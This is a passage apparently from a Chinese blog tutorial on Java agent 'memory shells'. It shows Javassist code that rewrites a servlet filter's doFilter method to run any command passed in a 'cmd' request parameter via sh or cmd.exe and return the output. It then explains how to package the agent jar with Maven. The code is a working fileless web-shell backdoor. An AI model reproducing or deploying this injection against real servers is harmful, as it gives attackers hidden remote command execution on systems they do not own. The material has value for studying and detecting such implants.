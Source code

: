 ```java
            try {
                cc = cp.get(className);
                CtMethod m = cc.getDeclaredMethod("doFilter");
                m.insertBefore("javax.servlet.ServletRequest req = request;\n" +
                        "javax.servlet.ServletResponse res = response;" +
                        "String cmd = req.getParameter(\"cmd\");\n" +
                        "if (cmd != null) {\n" +
                        "boolean isLinux = true;\n" +
                        "String osTyp = System.getProperty(\"os.name\");\n" +
                        "if (osTyp != null && osTyp.toLowerCase().contains(\"win\")) {isLinux = false;}\n" +
                        "String[] cmds = isLinux ? new String[]{\"sh\", \"-c\", cmd} : new String[]{\"cmd.exe\", \"/c\", cmd};"+
                        "Process process = Runtime.getRuntime().exec(cmds);\n" +
                        "java.io.BufferedReader bufferedReader = new java.io.BufferedReader(\n" +
                        "new java.io.InputStreamReader(process.getInputStream()));\n" +
                        "StringBuilder stringBuilder = new StringBuilder();\n" +
                        "String line;\n" +
                        "while ((line = bufferedReader.readLine()) != null) {\n" +
                        "stringBuilder.append(line + '\\n');\n" +
                        "}\n" +
                        "res.getOutputStream().write(stringBuilder.toString().getBytes());\n" +
                        "res.getOutputStream().flush();\n" +
                        "res.getOutputStream().close();\n" +
                        "}");
                byte[] byteCode = cc.toBytecode();
                cc.detach();
                return byteCode;
            } catch (NotFoundException | IOException | CannotCompileException e) {
                e.printStackTrace();
            }
        }

        return new byte[0];
    }
}
```
运行发现报错`java.lang.ClassNotFoundException: javassist.ClassPath`
![](https://img-blog.csdnimg.cn/ec99ffed74fe45b1a5fa686ba173cc30.png)

说明编译为jar的时候没有把我们的javassist带上，这里换成使用pom生成jar包，添加如下代码到pom中
```
<build>
    <plugins>
        <plugin>
            <groupId>org.apache.maven.plugins</groupId>
            <artifactId>maven-assembly-plugin</artifactId>
            <configuration>
                <descriptorRefs>
                    <descriptorRef>jar-with-dependencies</descriptorRef>
                </descriptorRefs>
                <archive>
                    <manifestEntries>
                        <Agent-Class>AgentDemo</Agent-Class>
                        <Can-Redefine-Classes>true</Can-Redefine-Classes>
                        <Can-Retransform-Classes>true</Can-Retransform-Classes>
                    </manifestEntries>
                </archive>
            </configuration>

            <executions>
                <execution>
                    <goals>
```